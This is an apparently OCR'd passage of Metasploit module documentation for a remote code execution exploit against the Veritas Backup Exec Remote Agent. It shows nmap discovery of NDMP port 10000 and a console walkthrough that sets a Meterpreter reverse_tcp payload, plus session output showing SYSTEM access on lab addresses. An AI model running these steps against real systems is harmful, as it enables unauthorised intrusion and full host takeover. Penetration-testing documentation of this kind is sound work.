 ```
[*] Meterpreter session 1 opened (172.16.180.248:4444 -> 172.16.180.141:49630) at 2022-09-12 01:44:44 +0300

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```

## Options

### INTERPRETER
The command line interpreter for executing Linux OS command. By default, the option is
`/bin/bash`. For Windows the option does not matter and the command will always be
executed using `C:\Windows\System32\cmd.exe`.

## Scenarios

The Backup Exec Remote Agent is installed on each host that has local filesystems
that should be backed up. These agents listen on the network for NDMP connections
(10000/tcp), appearing in Nmap scans with scripts enabled as follows:

```
$ nmap -p10000 -n 172.16.180.0/24 --open -vvv
...
Discovered open port 10000/tcp on 172.16.180.133
Discovered open port 10000/tcp on 172.16.180.132
Discovered open port 10000/tcp on 172.16.180.141
...
$ nmap -p10000 -n -sV 172.16.180.133
...
10000/tcp open  ndmp    Symantec/Veritas Backup Exec ndmp (NDMPv3)
...
```

(Note that the `ndmp-version` script fails to execute due to not sending an
`NDMP_CONNECT_OPEN` request before querying version information with the
`NDMP_CONFIG_GET_HOST_INFO` request. This exploit module's `check` command will
carry this query out successfully.)

### Windows; Backup Exec 21.0 (Backup Exec Remote Agent, revision 9.3)
```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > use exploit/multi/veritas/beagent_sha_auth_rce
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set RHOSTS 172.16.180.141
RHOSTS => 172.16.180.141
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.141:10000 - Checking vulnerability
[*] 172.16.180.141:10000 - Connecting to BE Agent service
[*] 172.16.180.141:10000 - Getting supported authentication types
Supported authentication by BE agent: BEWS2 (190), SHA (5), SSPI (4)
BE agent revision: 9.3
[*] 172.16.180.141:10000 - The target appears to be vulnerable. SHA authentication is enabled
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set TARGET Windows
TARGET => Windows
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set LHOST 172.16.180.248
LHOST => 172.16.180.248
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > show options 

Module options (exploit/multi/veritas/beagent_sha_auth_rce):
```